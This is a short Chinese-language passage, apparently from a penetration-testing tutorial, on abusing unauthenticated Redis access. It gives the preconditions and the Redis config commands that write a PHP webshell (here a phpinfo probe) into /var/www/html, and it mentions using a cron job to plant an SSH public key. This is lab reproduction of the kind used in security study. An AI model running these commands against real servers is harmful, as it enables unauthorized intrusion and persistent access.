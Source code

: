 

:label:目标机器如果没有/root/.ssh路径的话，可以通过写入定时任务的方式创建该路径，再进行写入公钥信息


---

## Webshell写入

### 利用条件

1. Redis可未授权访问
2. 服务器开启web服务，需要网站绝对路径信息，对网站目录有读写权限

### 复现过程

​	靶机上通过httpd开启web服务，绝对路径为/var/www/html，通过写入内容，更改存放路径，文件名称可达到写入wenshell目的

```
config set dir /var/www/html

config set dbfilename redis.php

set webshell "<?php phpinfo(); ?>"

Save
```

![image-20210906135458595](/assets/images/20210911/image-20210906135458595.png)

:label:只在服务器上开启简单的http服务，未搭建其他内容，只复现写入过程
